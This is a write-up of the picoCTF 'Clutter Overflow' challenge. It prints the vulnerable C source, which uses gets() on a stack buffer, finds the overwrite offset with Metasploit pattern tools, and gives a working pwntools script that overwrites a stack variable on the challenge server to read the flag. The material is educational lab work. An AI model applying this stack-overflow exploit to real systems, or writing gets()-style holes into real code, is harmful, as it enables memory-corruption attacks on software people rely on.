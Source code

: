 <h1><b>Clutter Overflow</b> Challange from PicoCTF</h1>
<h2>Writup</h2>
Video Writup: https://www.youtube.com/watch?v=1arJzf-zD_A <br>
challange link: https://play.picoctf.org/practice/challenge/216?category=6&page=1 <br>
points : 150

<b>Description</b>: Clutter, clutter everywhere and not a byte to use. 

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
From the very first look, we can see at line number 50 gets function is used, which is vulnerable for Buffer overflow vulnerability, so what program doing is
it declared global variable GOAL 0xdeadbeef ,and code = 0 in main function. first it will ask for the user input, whose size expected by program should be max. 
100 char. now there is an if condition which check code == GOAL ( which is false from the declartion of variables from the program), if it is true it will cat the
flag.txt, oterwise it will exit after printing code value.

![](1st.png)

If we put 300 char long string as an input, the value of code variable get overwrite, so what we can do is we can try to overwrite the value of code variable in 
stack to 0xdeadbeef , so if condition become true and program will cat the flag.txt

<h1><b>EXPLOITATION</b></h1>
for overwriting the value of variable code, we must know after putting how much number of character, the value of code is overwrited. for that we can use meta-
sploit-framework's exploits.
creating pattern string of 300 char:

> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300

<b>output</b>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
so lets put this pattern string in chall as an input

![](2nd.png)

so after putting above pattern, value of code variable become 0x6a41396941386941 , to find the exact match of this sting within the pattern we will use another
metasploit-framework's exploit
![](3rd.png)

> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 6a41396941386941

So the value of code varible is overwritten by the char we had put after putting 264 chars.

to confirm this, what we can do is, we can give a payload of 'A'*264 + 'BCDEF' to the program, so if code variable value comes to 0x4645444342 (which is the value 
of 'BCDEF' in little endian hex), then our exploit gave the correct result.
![](4th.png)
So from the above, we have confirmed that we can overwrite the value of code variable with the chars comes after putting 264 chars.
so we can write an small pwn exploit, to do this

```
import pwn

host = "mars.picoctf.net"
port = 31890
s = pwn.remote(host,port)
s.recvline()
s.recvline()
s.recvline()
payload = b'A'*264 + pwn.p64(0xdeadbeef)
s.sendline(payload)
s.interactive()
s.close()
```
SO what we have did here is, we establish a remote tcp connection with server, then we did s.recvline() to recieve the banner and question. 
then we crafter our payload, since we need to make the if condition true to get the content of flag.txt, we have added pwn.p64(0xdeadbeef) after 264 char.
so it will make the value of code variable same as GOAL variable. after sending the payload, we will have our flag.
![](5th.png)
  <b> Thank You</b>
                                                                                                              
